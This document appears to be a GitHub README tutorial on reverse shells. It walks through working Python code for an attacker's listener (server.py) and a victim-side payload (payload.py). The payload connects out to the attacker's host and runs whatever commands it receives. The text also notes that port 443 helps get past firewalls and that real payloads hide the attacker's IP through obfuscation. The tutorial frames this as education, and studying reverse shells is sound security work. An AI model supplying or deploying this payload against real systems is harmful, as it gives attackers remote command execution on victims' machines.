 # Reverse-Shell
A reverse shell is a shell session established on a connection that is initiated from a remote machine, not from the attacker’s host. Attackers who successfully exploit a remote command execution vulnerability can use a reverse shell to obtain an interactive shell session on the target machine and continue their attack. Reverse shells can also work across a NAT or firewall.
One of the most known frameworks that ethical hackers use in order to create and commnunicate with a reverse shell is MSFVenom and MSFconsole. 

How does it work?? 
To understand the mecanism i decided to write a simple reversehell in python in order to expalin the basics of the reverse shell theory.

# Requirements
To do so we need these common python libraries: 

### socket:
This module provides access to the BSD socket interface. It is available on all modern Unix systems, Windows, MacOS, and probably additional platforms.
The Python interface is a straightforward transliteration of the Unix system call and library interface for sockets to Python’s object-oriented style: the socket() function returns a socket object whose methods implement the various socket system calls. Parameter types are somewhat higher-level than in the C interface: as with read() and write() operations on Python files, buffer allocation on receive operations is automatic, and buffer length is implicit on send operations.

### OS
This module provides a portable way of using operating system dependent functionality. We are going to use this library in order to execute the commands sent by the attacker on the victim machine

### sys
Python sys module has several methods and variables that can alter various aspects of the Python runtime environment. It permits operating on the interpreter by giving access and information about the constants, variables, and functions that have a strong interaction with the interpreter.

### subprocess
The subprocess module allows you to spawn new processes, connect to their input/output/error pipes, and obtain their return codes.

# Code explication

## server.py
this is the script the hacker will be running on his machine/server this code is going to accpet and establish communication with the client side.

Coding the server side we only need the sockett libaray.

```
server_host= "0.0.0.0"
server_port= 443
data_size = 1024 * 128
SEPARATOR = "<sep>"
cyber = socket.socket()
```
As you can understanf from the variable names the server_host is the IP address of our server/attacker_machine we used the IP 0.0.0.0 in order to make the server reachable through all the IPv4 addresses of the server. For the server_port I used the port 443. We can use any port we want but the port 80 and 443 are widely used to bypass firewalls. data_size is the maximum ammoun of data that the client can send to the server and versversa.
SPERATOR is the seperation between the data sent or received.

then I created a socket and I called it cyber this is what we are going to use in the second part of our code.

Let's bind the socket that we created to out server IP and port that we initiated in the first two commands.
```
cyber.bind((server_host,server_port))
```
One of the most important part in creating such server is that it should have the ability to listen and accept incoming requests that why we need this two lines:
```
cyber.listen(10)
client_socket, client_ip = cyber.accept()
```
the listen function will allow us to listen to the incoming connections and the paramater 10 I used is the maximum length to which the queue of pending connections for sockfd may grow. That means if we receive 12 requests before we accept the connection then 2 of these requests will be droped.
The second line means that we accepted the connection from the client (our victim machine) and we stored the victim_socket and the victim_adress in two different variabales.
```
print(f"{client_ip[0]}:{client_ip[1]} Connected!")
```
This output will have the following format IP:PORT connected!
The first step we will do after having a connected client is to try and get the working directory on the victims devices this is why we will use the following code:
```
cmd = client_socket.recv(data_size).decode()
print("[+] Current working directory:", cmd)
```
A lot of people will be aseked why I used the decode function will because we need to encode the data in bytes to be sent theough the victim socket.
The main process of sending commands to the victims device will be in this part of the code:
```
while True:
    command = input(f"{cmd}~$ ")
    if not command.strip():
        continue
    client_socket.send(command.encode())
    if command.lower() == "exit":
        break
    output = client_socket.recv(data_size).decode()
    results,cmd = output.split(SEPARATOR)
    print(results)
```
basicly what we are doing is that we are verifying if the command which is the input of the hacker is not blank if it's the case then we will encode the command and send it to the victim. If hte command in lower case is exit then we will break out that means we will shutdown the server and then the communication with the client will die. If the process is executed correctly then we can receaive data from the victim and output. This is what the last 3 lines of code are doing on our server code.

## payload.py
The payload is the portion of the malware which performs malicious action. In our case the payload is the script that will be running on the victims device. 

let's start by importing the needed libraries and setting up the varaibles we will use in order to establish the communication with the attackers server.
```
server_host = #server_IP
server_port = 443
data_size = 1024 * 128
SEPARATOR = "<sep>"
victim = socket.socket()
victim.connect((server_host,server_port))
```
This is made for educational purposes and the main goal is to explain the theory behind revere shells this is why we cab see that the hacker's IP will be in plain text. In real life senarios the payload is obfuscated so it will be so hard to identify the hackers IP.
For this part the only difference we got from the server code is in the last line victim.connect and not bind because the victim will try to connect on the server we already created.
Well the server is waiting fot our working directory this is why we should send it first to do that we will use the OS library to run a local command wich is cwd the current working directory and we will send it through the socket this is done by the following code:

```
cmd = os.getcwd()
victim.send(cmd.encode())
```

the main job of the payload is that it will execute the commands sent by the attacker to do so we need to accept the received data using this line of code:
```
    command = victim.recv(data_size).decode()
    splited_command= command.split()
```
all what we have to do is to verify that the command is not blank, if it's an exit then we will shutdown the communication then we will store the output of the executed commands and send it back to the server. All of this is made possible by this code:
```
while True:
    command = victim.recv(data_size).decode()
    splited_command= command.split()
    if command.lower() == "exit":
        break
    if splited_command[0].lower() == "cd":
        try:
            os.chdir(''.join(splited_command[1:]))
        except FileNotFounfError as e:
            output = str(e)
        else:
            output = ""
    else:
        output = subprocess.getoutput(command)
    cmd = os.getcwd()
    message = f"{output}{SEPARATOR}{cmd}"
    victim.send(message.encode())
victim.close()
```
